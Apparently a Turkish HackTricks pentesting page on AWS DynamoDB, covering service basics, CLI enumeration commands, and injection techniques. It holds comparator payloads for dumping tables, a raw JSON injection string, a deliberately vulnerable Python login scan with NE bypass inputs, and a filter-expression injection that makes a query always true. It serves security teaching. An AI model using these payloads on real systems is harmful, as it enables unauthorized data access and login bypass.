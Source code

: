 # AWS - DynamoDB Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## DynamoDB

### Temel Bilgiler

Amazon DynamoDB, AWS tarafından **tamamen yönetilen, sunucusuz, anahtar-değer NoSQL veritabanı** olarak sunulmaktadır ve boyutlarından bağımsız olarak yüksek performanslı uygulamaları desteklemek için tasarlanmıştır. Hizmet, yerleşik güvenlik önlemleri, kesintisiz yedeklemeler, birden fazla bölgede otomatik çoğaltma, entegre bellek içi önbellekleme ve kullanışlı veri dışa aktarma araçları gibi sağlam özellikler sunar.

DynamoDB bağlamında, geleneksel bir veritabanı kurmak yerine, **tablolar oluşturulur**. Her tablo, **tablonun birincil anahtarının** ayrılmaz bir bileşeni olarak bir **bölüm anahtarı** belirtmeyi zorunlu kılar. Bu bölüm anahtarı, esasen bir **hash değeri** olup, hem öğelerin alınmasında hem de verilerin çeşitli sunucular arasında dağıtımında kritik bir rol oynar. Bu dağıtım, veritabanının ölçeklenebilirliğini ve kullanılabilirliğini korumak için hayati öneme sahiptir. Ayrıca, veri organizasyonunu daha da geliştirmek için bir **sıralama anahtarı** ekleme seçeneği de vardır.

### Şifreleme

Varsayılan olarak, DynamoDB, **Amazon DynamoDB'ye ait** bir KMS anahtarı kullanır, bu anahtar, en azından sizin hesabınıza ait olan AWS yönetilen anahtar bile değildir.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Yedeklemeler & S3'e Dışa Aktarma

**Tablo yedeklemelerinin** oluşturulmasını **planlamak** veya **talep üzerine** oluşturmak mümkündür. Ayrıca, bir tablo için **Zamanda Nokta Kurtarma (PITR)** özelliğini etkinleştirmek de mümkündür. Zamanda nokta kurtarma, yanlışlıkla yazma veya silme işlemlerine karşı koruma sağlamak için DynamoDB verilerinizi **35 gün** boyunca sürekli **yedekler**.

Ayrıca, **bir tablonun verilerini S3'e dışa aktarmak** da mümkündür, ancak tablonun **PITR etkinleştirilmiş** olması gerekir.

### GUI

[**DynamoDB Local**](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [**dynalite**](https://github.com/mhart/dynalite), [**localstack**](https://github.com/localstack/localstack) gibi yerel Dynamo hizmetleri için yararlı olabilecek bir GUI vardır: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Kimlik Doğrulama Olmadan Erişim

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Yetki Yükseltme

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### İstismar Sonrası

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Süreklilik

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Enjeksiyonu

### SQL Enjeksiyonu

DynamoDB verilerine **SQL sözdizimi** ile erişmenin yolları vardır, bu nedenle tipik **SQL enjeksiyonları da mümkündür**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Enjeksiyonu

DynamoDB'de verileri almak için farklı **koşullar** kullanılabilir, eğer bir NoSQL Enjeksiyonunda olduğu gibi verileri almak için **daha fazla koşulu birleştirmek** mümkünse, gizli verilere (veya tüm tabloyu dökme) ulaşabilirsiniz.\
DynamoDB tarafından desteklenen koşulları burada bulabilirsiniz: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Verilere **`query`** veya **`scan`** aracılığıyla erişiliyorsa **farklı koşulların** desteklendiğini unutmayın.

{% hint style="info" %}
Aslında, **Query** işlemleri çalışmak için **birincil** anahtarda **"EQ" (eşittir)** koşulunu belirtmelidir, bu da onu **NoSQL enjeksiyonlarına karşı daha az duyarlı** hale getirir (ve ayrıca işlemi çok sınırlı hale getirir).
{% endhint %}

Eğer **karşılaştırmayı** değiştirebilir veya yenilerini ekleyebilirseniz, daha fazla veri alabilirsiniz.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Ham Json enjeksiyonu

{% hint style="danger" %}
**Bu zafiyet, artık kullanımdan kaldırılmış olan dynamodb Scan Filter'a dayanmaktadır!**
{% endhint %}

**DynamoDB**, DB içindeki verileri **arama** için **Json** nesnelerini kabul eder. Eğer arama için gönderilen json nesnesinde yazma yeteneğiniz olduğunu bulursanız, DB'yi dökebilir, tüm içeriklerini alabilirsiniz.

Örneğin, bir isteğe enjeksiyon yaparak: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

bir saldırgan şunları enjekte edebilir:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

ID 1000 için "EQ" koşulunu düzeltin ve ardından 0'dan büyük bir Id dizesine sahip tüm verileri arayın, bu da hepsidir.

Başka bir **güvenlik açığı olan örnek bir giriş kullanarak** şöyle olabilir:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Bu, şuna karşı savunmasız olacaktır:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Bazı SDK'lar, gerçekleştirilecek filtrelemeyi belirten bir dize kullanmaya izin verir: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

DynamoDB'de **filtre ifadeleri** içinde bir **özelliğin** **değerini** **değiştirmek** için öğeleri tararken, token'ların **`:`** karakteri ile **başlaması** gerektiğini bilmelisiniz. Bu tür token'lar, **çalışma zamanında** gerçek **özellik değeri ile değiştirilir**.

Bu nedenle, önceki gibi bir giriş, şu şekilde atlatılabilir:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
